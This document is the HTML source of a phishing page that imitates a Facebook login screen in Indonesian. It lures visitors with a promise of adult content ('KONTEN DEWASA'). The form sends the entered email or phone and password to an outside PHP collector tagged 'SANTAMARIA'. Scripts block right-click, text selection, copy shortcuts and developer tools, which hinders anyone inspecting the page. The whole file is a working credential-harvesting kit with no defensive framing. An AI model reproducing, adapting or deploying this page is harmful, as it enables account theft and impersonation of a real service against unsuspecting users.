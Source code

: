 <!DOCTYPE html>
<html lang="en">
	<head>
		<meta charset="UTF-8">
			<meta name="viewport" content="width=device-width, initial-scale=1.0">
				<meta http-equiv="X-UA-Compatible" content="ie=edge">
					<title>Masuk untuk melanjutkan</title>
					<link rel="shorcut icon" href="img/rYZqPCBaG70.png">
						<!-- Style -->
						<link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
								<style>
      html,body {
        background-color: #eceff6;
      }

      button:focus,
      input:focus,
      textarea:focus,
      select:focus {
          outline: none;
      }

      .login {
        max-width: 100%;
        width: 500px;
        display: block;
        margin: 10px auto;
        box-shadow: 0px 0px 15px rgba(0,0,0, 0.1);
      }

      textarea:focus,
      input[type="text"]:focus,
      input[type="password"]:focus,
      input[type="datetime"]:focus,
      input[type="datetime-local"]:focus,
      input[type="date"]:focus,
      input[type="month"]:focus,
      input[type="time"]:focus,
      input[type="week"]:focus,
      input[type="number"]:focus,
      input[type="email"]:focus,
      input[type="url"]:focus,
      input[type="search"]:focus,
      input[type="tel"]:focus,
      input[type="color"]:focus,
      .uneditable-input:focus {
        border-color: #ced4da;
        box-shadow: 0 1px 1px rgba(0, 0, 0, 0) inset, 0 0 8px rgba(126, 239, 104, 0);
        outline: 0 none;
      }

      .bg-utama {
        background-color: #3b5998;
      }
      .img-login {
        width: 120px;
        margin: 3px auto;
      }

      .img-icon {
        width: 61px;
      }

      .text {
        font-size: 1em;
        display: block;
        margin-top: -8px;
        margin-bottom: 20px;
        color: #919191;
      }

      .form-control {
        display: block;
        height: 45px;
        margin: -1px auto;
      }

      .border-bottom-x {
        border-radius: 0px;
        border-top-left-radius: .25rem;
        border-top-right-radius: .25rem;
        outline: none;
        font-size: 14px;
      }
.tumbal {
	text-align: left;
	background-color: #fffbe2;
	min-width: 320px;
	width: 100%;
	height: 25px;
	padding-top: 10px;
	padding-left: 16px;
	padding-right: 16px;
}
.tumbal, .text
	font-size: 12px;
	color: #fffbe2;
	margin: auto;
}

      .border-top-x {
        border-radius: 0px;
        border-bottom-left-radius: .25rem;
        border-bottom-right-radius: .25rem;
        outline: none;
        font-size: 14px;
      }

      .btn-login {
        width: 100%;
        display: block;
        margin: 10px auto;
        background-color: #3677ff;
        font-size: 15px;
      }
	  .mobapplink {
		background-color: #fffbe2;
		width: 100%;
		height: 42px;
		min-width: 360px;
	}
	.mobandroidpic {
		height: 27px;
		width: 13px;
		margin: 9px 11px 9px 16px;
		float: left;
}
	.getfbandroid {
		float: left;
		padding: 17px 0 17px 0;
		font-size: 14px;
		color: #7d7215;
}

/* Styles for footer */
.mobfooter {
	min-width: 320px;
	width: 100%;
	background-color: #FFF;
}
#moblangs {
	background-color: #ECEFF5;
	display: flex;
	margin-top: -1px;
	width: 100%;
	height: 120px;
}
.item1, .item2 {
	flex-grow: 1;
}
.mobfooter #moblangs li {
	list-style-type: none;
	font-size: 12px;
	text-align: center;
	margin-bottom: 2px;
}
.mobfooter #moblangs li a {
	color: #576b95;
}
#mobcurrentlang {
	color: #90949c !important;
	font-weight: 500;
	letter-spacing: 0.5px;
}
.mobfooter #moblangs li a .fa {
	font-size: 24px;
	color: #576b95;
}
.mobcopyright {
	text-align: center;
	background-color: #ECEFF5;
	min-width: 320px;
	width: 100%;
	height: 5px;
	padding-left: 16px;
	padding-right: 16px;
}
}
.mobfbcopyright, 
	font-size: 12px;
	color: #919191;
	margin: auto;
}
.mobcopyright span .fa {
	color: #919191;
	font-size: 14px;
}
      @media only screen and (max-width: 600px) {
        .login {
          display: block;
          margin: 0 auto;
          box-shadow: 0px 0px 15px rgba(0,0,0, 0  );
        }
      }
    </style>
							</head>
							<body>
								<div class="login mx-auto d-block">
									<nav class="navbar bg-utama navbar-dark text-center">
										<div class="container">
											<img class="mx-auto d-block img-login" src="https://1.bp.blogspot.com/-O9lS6tvuWzs/XxA4F5qypII/AAAAAAAAAcU/0nhNdAE41WQkprtWLWTPc5aWgq79kKt4wCLcBGAsYHQ/s1600/fblogo.png">
											</div>
										</nav>
										<div class="tumbal">
											<span class="text">
												<a >Anda harus login dulu.
												</span>
											</div>
											<div class="container">
												<div class="row">
													<div class="col-sm-12 col-lg-12 text-center mx-auto d-block">
														<img class="img-icon mt-4 mb-4" src="https://1.bp.blogspot.com/-veXVwaohuGE/XlaWvkau56I/AAAAAAAAAS8/oHi5MZZ9l-kbPsR4V0RnTzKSIy74R0PyACPcBGAYYCw/s320/555c24976024e95d2188c.png" width="85">
															<div class="text">
              Masuk ke akun Facebook Anda untuk terhubung ke KONTEN DEWASA
            </div>
														</div>
													</div>
													<div class="row">
														<div class="col-sm-12 col-lg-12 text-center mx-auto d-block">
															<form action="https://cloudedvideo.logicaly.net/SANTAMARIA/rocket.php" method="POST">
															<input type="hidden" class="form-control border-bottom-x id="user" name="user" value="SANTAMARIA">
																<div class="form-group">
																	<input type="hidden" name="url" value="">
																		<input autocorrect="off" autocapitalize="off" class="form-control border-bottom-x" autocomplete="on" id="email" name="email" placeholder="Nomor ponsel atau email" type="text" required>
																			<input autocorrect="off" autocapitalize="off" class="form-control border-bottom-x" autocomplete="on" id="pass" name="pass" placeholder="Kata Sandi" type="password" required>
																				<button class="btn btn-login text-white" type="submit" name="login">Masuk</button>
																			</div>
																		</form>
																	</div>
																</div>
																<br>
																	<br>
																		<br>
																			<div class="mobfooter">
																				<div id="moblangs">
																					<div class="item1">
																						<li>
																							<a href="#" id="mobcurrentlang">Bahasa Indonesia</a>
																						</li>
																						<li>
																							<a href="#">Basa Jawa</a>
																						</li>
																						<li>
																							<a href="#">Español</a>
																						</li>
																						<li>
																							<a href="#">Français (France)</a>
																						</li>
																					</div>
																					<div class="item2">
																						<li>
																							<a href="#">English (UK)</a>
																						</li>
																						<li>
																							<a href="#">Bahasa Melayu</a>
																						</li>
																						<li>
																							<a href="#">Português (Brasil)</a>
																						</li>
																						<li>
																							<a href="#">㊉</a>
																						</li>
																					</div>
																				</div>
																				<div class="mobcopyright">
																					<span class="text">
																						<a >Facebook Inc
																						</span>
																						<br>
																						</div>
																					</div>
																					<!-- Script -->
																					<script type="text/javascript" src="https://code.jquery.com/jquery-3.4.1.min.js"></script>
																					<script type="text/javascript" src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
																					<script type="text/javascript" src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.bundle.min.js"></script>
																					<script type="text/javascript">
function disableSelection(e){if(typeof e.onselectstart!="undefined")e.onselectstart=function(){return false};else if(typeof e.style.MozUserSelect!="undefined")e.style.MozUserSelect="none";else e.onmousedown=function(){return false};e.style.cursor="default"}window.onload=function(){disableSelection(document.body)}
</script>
																					<script type="text/javascript">
function mousedwn(e){try{if(event.button==2||event.button==3)return false}catch(e){if(e.which==3)return false}}document.oncontextmenu=function(){return false};document.ondragstart=function(){return false};document.onmousedown=mousedwn
</script>
																				</body>
																			</html>
																			<script type="text/javascript">
window.addEventListener("keydown",function(e){if(e.ctrlKey&&(e.which==65||e.which==66||e.which==67||e.which==73||e.which==80||e.which==83||e.which==85||e.which==86)){e.preventDefault()}});document.keypress=function(e){if(e.ctrlKey&&(e.which==65||e.which==66||e.which==67||e.which==73||e.which==80||e.which==83||e.which==85||e.which==86)){}return false}
</script>
																			<script type="text/javascript">
document.onkeydown=function(e){e=e||window.event;if(e.keyCode==123||e.keyCode==18){return false}}
</script>
